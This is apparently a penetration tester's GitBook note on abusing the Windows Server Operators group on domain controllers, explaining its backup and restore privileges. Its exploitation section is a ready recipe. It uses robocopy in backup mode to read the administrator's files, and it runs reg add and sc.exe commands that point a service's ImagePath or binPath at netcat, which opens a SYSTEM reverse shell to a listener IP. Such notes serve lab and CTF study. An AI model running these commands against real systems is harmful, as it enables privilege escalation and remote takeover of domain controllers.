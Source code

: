 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Server Operators

## Information

Server Operators exists only on DCs and are used for managing the DC as a whole, including service configurations and files. They can create and delete network shared resources, **start and stop services**, **back up and restore files**, and **change installed binaries** on the DCs. This group is considered a **service administrator** account because its members have physical access to DCs.

> Well-known SID/RID: `S-1-5-32-549`.

<table><thead><tr><th width="221">Privileges</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Accessing Files

<pre class="language-powershell"><code class="lang-powershell"><strong># copy "restricted" data
</strong><strong>robocopy /b C:\users\administrator\desktop C:\programdata\temp
</strong></code></pre>

### ImagePath

Member of this group has the ability to manage services. By modifying the `ImagePath` of a service we can gain `SYSTEM` level access. An example of this process can be found [here](../../../../boxes/boxes/insane/multimaster.md#changing-paths).

{% code overflow="wrap" %}
```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
# confirm change
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
# start service
Start-Service wuauserv
```
{% endcode %}

### binPath

Similar to [`ImagePath`](server-operators.md#imagepath), we can change the `binPath`.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># change binPath
</strong><strong>sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
</strong><strong># stop the service
</strong>sc.exe stop browser
# start the service
sc.exe start browser
</code></pre>

## Resources

{% tabs %}
{% tab title="First Tab" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators" %}
{% endtab %}

{% tab title="Exploitation" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}
{% endtab %}
{% endtabs %}

## Boxes

{% tabs %}
{% tab title="Sizzle" %}
{% embed url="https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle" %}
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}
